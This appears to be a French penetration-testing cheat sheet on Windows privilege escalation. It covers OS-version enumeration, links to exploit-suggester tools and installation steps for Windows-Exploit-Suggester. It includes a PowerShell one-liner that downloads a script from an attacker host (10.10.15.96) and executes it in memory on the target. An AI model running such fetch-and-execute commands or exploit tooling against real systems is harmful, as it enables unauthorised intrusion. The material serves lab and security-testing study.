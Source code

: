 ```yaml
---
public: true
---
```

## Version de Windows

```shell
# Si on souhaite les informations du système d'exploitation uniquement on pourra utiliser cette commande
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

[environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

On trouvera sur ce site la version exacte de Windows en fonction de la version du noyau remonté par les commandes suivantes

[Liste des Versions Windows](https://en.wikipedia.org/wiki/Windows_10_version_history)

## Escalade de privilèges

Selon la version du système d'exploitation, on pourra utiliser un des outils suivants pour trouver des exploits qui pourraient fonctionner sur la machine cible :

- Avant Windows Server 2016 : <https://github.com/rasta-mouse/Sherlock>
- Windows Server 2016 et supérieur : <https://github.com/rasta-mouse/Watson>

On peut aussi tenter <https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### Sherlock (versions anciennes de windows)

** Remarque** : Sherlock affiche une liste de vulnérabilité avec un `VulnStatus` qui peut avoir la valeur `Not Vulnerable`. J'ai pu constater que même si il était marqué `Not Vulnerable`, certains exploits fonctionnent tout de même.... Cela peut donc être intéressant de tenter même d'autres exploits qui serait considérés comme "Non Applicable" (Attention à la stabilité du système !)

```powershell
iex ((New-Object Net.WebClient).DownloadString('http://10.10.15.96/Sherlock.ps1'))
Import-Module .\Sherlock.ps1
Find-AllVulns
```


### Linux Exploit suggester

#### Installation

```shell
curl -LO https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
# dépendances
sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
sudo tar -xf setuptools-2.0.tar.gz
pushd setuptools-2.0/
sudo python2.7 setup.py install
popd

sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
sudo tar -xf xlrd-1.0.0.tar.gz
pushd xlrd-1.0.0/
sudo python2.7 setup.py install
popd
# mise à jour de la DB
sudo python2.7 windows-exploit-suggester.py --update
```

```shell
# exécuter sur la cible 
# > systeminfo > info.txt 

```